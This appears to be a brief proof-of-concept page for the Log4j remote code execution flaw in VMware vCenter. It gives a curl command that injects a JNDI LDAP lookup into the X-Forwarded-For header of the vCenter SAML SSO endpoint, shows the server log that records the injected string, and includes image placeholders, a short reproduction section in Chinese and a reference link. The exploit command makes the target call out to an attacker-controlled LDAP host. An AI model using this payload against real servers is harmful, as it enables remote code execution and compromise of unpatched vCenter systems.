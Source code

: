 # VMWare-vcenter log4j RCE

## Poc

```
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://10.0.0.3:1270/lol}" "https://10.0.0.4/websso/SAML2/SSO/photon-machine.lan?SAMLRequest="
```

Log

```
[2021-12-13T16:31:34.000Z tomcat-http--15 photon-machine.lan   fcf6634c-4722-4b22-9c46-d78a86f0b388 INFO  auditlogger] {"user":"n/a","client":"${jndi:ldap://10.0.0.3:1270/lol}, 10.0.0.3","timestamp":"12/13/2021 16:31:33 UTC","description":"User n/a@${jndi:ldap://10.0.0.3:1270/lol}, 10.0.0.3 failed to log in: org.opensaml.messaging.decoder.MessageDecodingException: No SAMLRequest or SAMLResponse query path parameter, invalid SAML 2 HTTP Redirect message","eventSeverity":"INFO","type":"com.vmware.sso.LoginFailure"}
```

![](1.png)

## 复现

![](2.png)

![](3.png)

## 参考链接

https://twitter.com/w3bd3vil/status/1469814463414951937